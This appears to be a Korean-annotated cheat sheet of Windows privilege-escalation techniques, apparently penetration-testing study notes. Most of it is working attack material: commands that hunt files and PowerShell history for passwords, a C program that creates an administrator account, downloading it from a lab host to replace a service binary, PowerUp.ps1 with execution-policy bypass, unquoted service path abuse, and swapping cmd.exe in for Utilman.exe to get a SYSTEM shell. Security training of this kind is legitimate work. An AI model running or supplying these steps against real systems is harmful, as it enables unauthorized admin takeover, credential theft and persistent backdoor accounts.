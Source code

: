 ```powershell
findstr /SIM /C:"pass" *.txt *.pdf *.xls *.xlsx *.doc *.docx *kdbx,*ini *.xml *.cfg *.config
```
- `/S`: 현재 디렉토리뿐 아니라 **하위 디렉토리까지 재귀적으로 검색**
- `/I`: **대소문자를 구분하지 않고** 검색
- `/M`: 문자열이 포함된 **파일 이름만 출력**

---
```powershell
Get-LocalUser

Get-LocalGroup

Get-LocalGroupMember adminteam
```
```powershell
systeminfo

ipconfig /all

route print

netstat -ano
```
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
- 64비트 Windows에서 32비트 프로그램의 설치 목록을 레지스트리에서 조회합니다. 프로그램 이름(DisplayName)만 표시합니다.

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
- 64비트 Windows에서 64비트 프로그램의 설치 목록을 레지스트리에서 조회합니다. 프로그램 이름(DisplayName)만 표시합니다.

Get-Process
```
```powershell
Get-ChildItem -Path C:\ `
 -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*kdbx,*ini `
 -File -Recurse -ErrorAction SilentlyContinue
```
```powershell
runas /user:backupadmin cmd
- 'backupadmin' 계정으로 명령 프롬프트(cmd)를 실행합니다. 해당 계정의 비밀번호 입력이 필요합니다.
```
```powershell
Get-History

(Get-PSReadlineOption).HistorySavePath
```
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
- 현재 실행 중인 Windows 서비스 목록을 조회합니다.

icacls "C:\xampp\apache\bin\httpd.exe"
- 지정된 파일(httpd.exe)의 접근 권한 목록을 표시하거나 수정합니다. 현재는 권한 확인 용도로 사용됩니다.
```
---
# Service Binary Hijacking
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
```powershell
iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe

move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

net stop mysql

whoami /priv

shutdown /r /t 0
```
```powershell
iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

. .\PowerUp.ps1

Get-ModifiableServiceFile
- 서비스 실행 파일에 일반 사용자 쓰기 권한이 있는 경우를 찾아냄.
- 이 취약점은 악성 파일로 서비스 실행 파일을 교체하여 권한 상승(Privilege Escalation)이 가능하게 만듦.
```
---
# Unquoted Service Paths
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
- WMIC를 사용하여 서비스 이름(`name`)과 실행 파일 경로(`pathname`)를 조회.
- C:\windows\\ 경로 제외한뒤 "가 포함된 경로 제외

sc qc VeyonService
- 권한 확인

Start-Service GammaService

Stop-Service GammaService

icacls "C:\Program Files\Enterprise Apps"
- 지정된 폴더(`C:\Program Files\Enterprise Apps`)의 ACL(Access Control List, 접근 제어 목록)을 표시.
- 해당 디렉터리에 대한 사용자·그룹별 권한(읽기, 쓰기, 실행 등)을 확인 가능.
- 권한이 잘못 설정된 경우 보안 취약점이 될 수 있음.
```
```powershell
#PowerUp.ps1
Get-UnquotedService

Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

Restart-Service GammaService
```
---
# Scheduled Tasks
```powershell
schtasks /query /fo LIST /v
```
---
# Windows Privilege Escalation — Token Impersonation (SeImpersonatePrivilege)
- https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070
- https://github.com/ohpe/juicy-potato `CLSID`
---
# Windows Add User Command
```powershell
#To create a user named api with a password of Dork123!
net user api Dork123! /add

#To add to the administrator and RDP groups
net localgroup Administrators api /add
net localgroup 'Remote Desktop Users' api /add
```
---
# AlwaysInstallElevated
- https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/
---
# SeBackupPrivilege
- https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege
---
# PowerUp.ps1
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```
---
# SeRestore
```powershell
# C:\Windows\system32
ren Utilman.exe Utilman.old
ren cmd.exe Utilman.exe
```
```bash
rdesktop 192.168.81.165
windows + u
```
---
# SeManageVolume
- https://hackfa.st/Offensive-Security/Windows-Environment/Privilege-Escalation/Token-Impersonation/SeManageVolumePrivilege/
---
# priviledge escalation
- https://github.com/gtworek/Priv2Admin
---
# xampp
- `C:\xampp\properties.ini` : xampp 설정파일
